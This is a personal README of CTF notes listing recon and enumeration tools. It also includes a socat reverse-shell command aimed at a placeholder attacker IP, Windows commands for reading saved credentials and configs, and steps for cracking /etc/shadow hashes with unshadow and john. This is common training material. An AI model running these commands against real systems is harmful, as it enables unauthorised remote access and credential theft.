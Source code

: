 This repo contains some miscallenious notes/tips for me to use when I do CTFs. Mostly contains list of tools

## Ivestigation

### SSL/TLS Certificates

[Certificate search](https://crt.sh)  
Find certificates by certificate hash, domain name or organization name

NsLookup  
Tool to lookup DNS records

[DNSDumpster](https://dnsdumpster.com)  
Tool for subdomain enumeration.

[Shodan](https://shodan.io)  
Search Engine for Internet connected devices

### Identifying technologies

[OWASP favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database) - Use favicon md5-sums to find the framework

Wappalyzer - Browser plugin that (I assume) reads HTTP-headers and identifies underlying technologies

[Sublist3r](https://github.com/aboul3la/Sublist3r)  
Subdomain enumerator that uses OSINT

## Enumeration/Scanning

nmap  
Search for open ports in a machine. Automatically look for exploits for the software running in the ports 

Rustscan    
Same as nmap but faster

### Content discovery

[Fuzz Faster u Fool](https://github.com/ffuf/ffuf)  
Find direcotries/VHosts in a website. Can also be used to fuzz GET parameter 

[Gobuster](https://github.com/OJ/gobuster)  
Find directories/DNSs/VHosts in a website

[DNSRecon](https://github.com/darkoperator/dnsrecon)  
DNS Enumeration Script

## Exploiting

More stable shell

### Socat  
On the attacker machine, run the command ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```  
On the victim machine run the command ```socat TCP:<attacker-ip>:<attacker-port> exec:"bash -li",pty,stderr,sigint,setsid,sane```

# Priv Esc

[linPEAS/winPEAS](https://github.com/carlospolop/PEASS-ng)  
Scripts that look for vulnerabilities inside the OS.

[GTFObins](https://gtfobins.github.io/)  
Curated list of Unix binaries that can be used to bypass local security restrictions in a miconfigured system.

## Windows typical spots for saved credentials

### Powershell history (from cmd)
```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

### Saved Windows Credentials 
List the saved windows credentials 
```cmdkey /list```

Run a program with the saved credentials 
```runas /savecred /user:<user> cmd.exe```

### IIS Configs 
```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionStrin```

### Putty's Proxy sessions 
```req query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```

## Post exploit

### Unshadow tool  
Use ```unshadow passwd.txt shadow.txt > passwords.txt``` where passwd.txt contains the contents from ```/etc/passwd``` and shadow.txt ```/etc/shadow```  

### [John](https://github.com/openwall/john)
After you've used the unshadow tool, you can use ```john passwords.txt``` to bruteforce the passwords


## Misc

[CyberChef](https://gchq.github.io/CyberChef)
